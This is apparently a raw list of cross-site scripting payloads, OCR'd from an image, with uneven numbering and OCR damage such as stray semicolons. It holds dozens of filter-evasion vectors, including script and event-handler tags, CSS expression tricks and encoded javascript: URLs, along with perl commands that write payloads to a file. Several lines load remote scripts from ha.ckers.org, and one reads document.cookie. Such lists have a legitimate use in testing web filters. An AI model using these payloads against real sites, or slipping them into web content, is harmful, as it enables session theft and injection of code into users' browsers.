 <;SCRIPT>;alert(String.fromCharCode(88,83,83))<;/SCRIPT>;
41) <marquee onstart='javascript:alert&#x28;1&#x29;'>^__^
[color=red' onmouseover="alert('xss')"]mouse over[/color]
<iframe<?php echo chr(11)?> onload=alert('XSS')></iframe>
11) <script src="data:text/javascript,alert(1)"></script>
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<iframe<?php echo chr(11)?> onload=alert(/XSS/)></iframe> 
&#22924;=RegExp(/a/)[&#54280;]+RegExp(/lert(1)/)[&#54280;]
<var onmousemove="alert(/XSS/)">Long paragraph here</var> 
>%22%27><img%20src%3d%22javascript:alert(%27%20XSS%27)%22>
eval((function ale(){}).name+(function rt(){}).name+'(1)')
* {-o-link:'javascript:alert(1)';-o-link-source: current;}
<div style=width:1px;filter:glow onfilterchange=alert(1)>x
<LAYER SRC="javascript:document.vulnerable=true;"></LAYER>
<SCRIPT ="blah" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
perl -e 'print "<IMG SRC=javascript:alert("XSS")>";' > out
11) <script /*%00*/>/*%00*/alert(1)/*%00*/</script /*%00*/
<SCRIPT a=">'>" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
30) &#00;</form><input type&#61;"date" onfocus="alert(1)">
<LINK REL="stylesheet" HREF="http://ha.ckers.org/xss.css">
">/KinG-InFeT.NeT/><script>alert(document.cookie)</script>
6) <form><isindex formaction="javascript&colon;confirm(1)"
<SCRIPT "a='>'" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<div STYLE="width: expression(document.vulnerable=true);">
<;STYLE>;@import';http://ha.ckers.org/xss.css';;<;/STYLE>;
<A HREF="h&#x0A;tt&#09;p://6&#09;6.000146.0x7.147/">XSS</A>
<script>({set/**/$($){_/**/setter=$,_=1}}).$=alert</script>
32) <object data=javascript&colon;\u0061&#x6C;&#101%72t(1)>
<SCRIPT a=">" '' SRC="http://ha.ckers.org/xss.js"></SCRIPT>
42) <div/style="width:expression(confirm(1))">X</div> {IE7}
//--></SCRIPT><SCRIPT>alert(String.fromCharCode(88,83,83));
<div style="width: expression(document.vulnerable=true;);">
<;INPUT TYPE=";IMAGE"; SRC=";javascript:alert(';XSS';);";>;
<a href="about:<script>document.vulnerable=true;</script>">
<;STYLE TYPE=";text/javascript";>;alert(';XSS';);<;/STYLE>;
<;IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>;
perl -e 'print "&<SCR\0IPT>alert("XSS")</SCR\0IPT>";' > out
perl -e 'print "<IMG SRC=java\0script:alert("XSS")>";'> out
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
<;STYLE>;@im\port';\ja\vasc\ript:alert(";XSS";)';;<;/STYLE>;
<object allowscriptaccess="always" data="test.swf"></object>
['ale'+'rt']['m'+'ap'](top['ev'+'al'])[0]['valu'+'eOf']()(1)
<a onclick="URL='javascript:alert(/XSS/)'" href="#">Test</a>
if(false)sdfasdfsad(),dasfasdfsfd,fasdfsdfs();else alert(1);
";>;<;BODY onload!#$%&;()*~+-_.,:;?@[/|\]^`=alert(";XSS";)>;
<;SCRIPT/XSS SRC=";http://ha.ckers.org/xss.js";>;<;/SCRIPT>;
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115....> 
<;XML SRC=";http://ha.ckers.org/xsstest.xml"; ID=I>;<;/XML>;
<;TABLE BACKGROUND=";javascript:alert(';XSS';)";>;<;/TABLE>;
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
28) <script ^__^>alert(String.fromCharCode(49))</script ^__^
}</style><script>a=eval;b=alert;a(b(/XSS/.source));</script>
<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>
<IFRAME SRC="javascript:document.vulnerable=true;"></iframe>
<;XSS STYLE=";behavior: url(http://ha.ckers.org/xss.htc);";>;
<img STYLE="xss:expr/*XSS*/ession(document.vulnerable=true)">
<table><TD BACKGROUND="javascript:document.vulnerable=true;">
<TABLE><TD BACKGROUND="javascript:alert('XSS')"></TD></TABLE>
javascript:if(typeof%20wWXzys==typeof%20alert)wWXzys();alert(
33) <iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>
